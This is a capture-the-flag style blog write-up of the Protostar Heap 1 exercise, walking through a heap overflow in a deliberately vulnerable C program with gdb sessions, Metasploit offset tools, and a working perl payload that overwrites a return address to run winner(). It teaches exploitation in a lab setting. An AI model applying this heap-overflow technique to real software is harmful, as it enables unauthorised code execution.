 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 1"
date: 2012-01-12T18:28:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


[This](http://exploit-exercises.com/protostar/heap1) challenge was different for me. The previous heap challenge was easy to pretend it was just a simple stack overflow.  This one worked very different, and brought some different challenges with it. 

<!-- more -->

You first start out with the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
 int priority;
 char *name;
};

void winner()
{
 printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
 struct internet *i1, *i2, *i3;

 i1 = malloc(sizeof(struct internet));
 i1->priority = 1;
 i1->name = malloc(8);

 i2 = malloc(sizeof(struct internet));
 i2->priority = 2;
 i2->name = malloc(8);

 strcpy(i1->name, argv[1]);
 strcpy(i2->name, argv[2]);

 printf("and that's a wrap folks!\n");
}
```

It's quite easy to see where the heap overflow would occur.  The code is allocating 8 bytes of space for the "name" field in memory.  However, it's never checking if the arguments are over 8 bytes long. 

After tinkering for a bit, I found that if you passed strings that were too long, you could get strcpy to try overwriting other memory spaces than it was supposed to.  GDB would fail on the lines of strcpy with weird addresses.  So I started there. 

First, I figured I needed to know the offset for the first argument, to know which exact byte it was using as a copy destination.  Just like in stack overflows, I used the [Metasploit Framework](http://www.metasploit.com) to generate a unique string: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then fed that string into the first argument, and passed a test value of "BBBBBBBB" as the second argument. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB
Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A BBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x37614136 <Address 0x37614136 out of bounds>,
    src=0xbffff99e "BBBBBBBB") at strcpy.c:40
40      strcpy.c: No such file or directory.
        in strcpy.c
```

I used the [Metasploit Framework](http://www.metasploit.com) again to get me the offset using the value in the strcpy dest field. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x37614136
20
```

So what I had learned here, is if I overflowed the "name" field of the struct with 20 bytes instead of 8, I could then control the destination of the copy for the second strcpy command.  It would copy whatever the second argument was, into any memory space I wanted.  But I needed to control flow of the program to get "winner()" to execute.  Somehow I needed to get the address of "winner()" into the EIP.  My thought on that, was that since when you call a program or function, it puts the return address in the stack, that maybe I could overwrite that return address, and instead of exiting gracefully (because it was the main function), it would put my address into the EIP and run it.  The first step with that was finding the location of that return address in the stack. 

I added a breakpoint to the main function, so I could get the initial memory values once inside that function. 

```
user@protostar:/opt/protostar/bin$ gdb ./heap1 --quiet
Reading symbols from /opt/protostar/bin/heap1...done.
(gdb) break main
Breakpoint 1 at 0x80484c2: file heap1/heap1.c, line 23.
```

I then ran the program with dummy data, which made me hit my breakpoint. 

```
(gdb) run asdf asdf
Starting program: /opt/protostar/bin/heap1 asdf asdf

Breakpoint 1, main (argc=3, argv=0xbffff864) at heap1/heap1.c:23
23      heap1/heap1.c: No such file or directory.
        in heap1/heap1.c
```

From this point, I wanted to look at all the registers, but focus in on the esp and ebp. 

```
(gdb) i r
eax            0xbffff864       -1073743772
ecx            0x7825cdc2       2015743426
edx            0x3      3
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff790       0xbffff790
ebp            0xbffff7b8       0xbffff7b8
esi            0x0      0
edi            0x0      0
eip            0x80484c2        0x80484c2 <main+9>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

The important parts here, are that the top of the stack is at 0xbffff790 and the bottom at 0xbffff7b8.  So I pulled up all the memory inbetween those two addresses.  I expected to see 0x00000000 at the end, to signify that it was the end of the function.  And in the addresses before that, one would be the return address. 

```
(gdb) x/10x $esp
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048580      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804858b      0xb7fd7ff4
0xbffff7b0:     0x08048580      0x00000000
```

For now, I removed my original breakpoint, so that execution wouldn't get paused. 

```
(gdb) delete 1
```

I played around with the different addresses in this 0xbffff790-0xbffff7b8 range, and found the address 0xbffff7ac to work out. 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\xEF\xBE\xAD\xDE"')
and that's a wrap folks!

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

So it appears that it wasn't the byte right before the 0x00000000, but was actually 2 bytes before it.  I was now controlling the EIP.  The last step would be to find the address of the winner() function, to get it called. 

```
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
```

This was fairly trivial to do.  So I built up the string with the proper return address and winner() address: 

```
(gdb) run $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and that's a wrap folks!
and we have a winner @ 1326098464

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

It looks like it did execute winner() successfully.  It may not have ended the program properly, but we got our execution.  Just to make sure that it'd work outside of gdb, I tried it again on the direct program. 

```
user@protostar:/opt/protostar/bin$ ./heap1 $(perl -e 'print "A"x20 . "\xac\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"')
and we have a winner @ 1326098505
Segmentation fault
```

There you have it.  The execution was changed to execute where originally not intended.